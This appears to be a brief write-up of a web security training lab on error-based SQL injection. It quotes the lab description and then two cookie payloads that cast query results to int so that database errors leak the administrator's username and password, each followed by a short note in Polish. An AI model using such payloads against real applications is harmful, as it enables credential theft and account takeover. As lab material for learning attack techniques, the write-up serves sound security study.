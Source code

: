 Title: Visible error-based SQL injection
Level: Practitioner
Desc: This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.
The database contains a different table called users, with columns called username and password. To solve the lab, find a way to leak the password for the administrator user, then log in to their account. 

payload: `TrackingId=9' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`
![image](https://github.com/user-attachments/assets/c7afd8bd-f2a6-455b-bc71-46f5d4d0feb3)
wynik: Error zdradził istnienie konta administrator

payload: `TrackingId=9' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`
![image](https://github.com/user-attachments/assets/e4b0dfde-043f-49df-9d4c-660d33725c20)
wynik: Error zdradził hasło użytkownika administrator
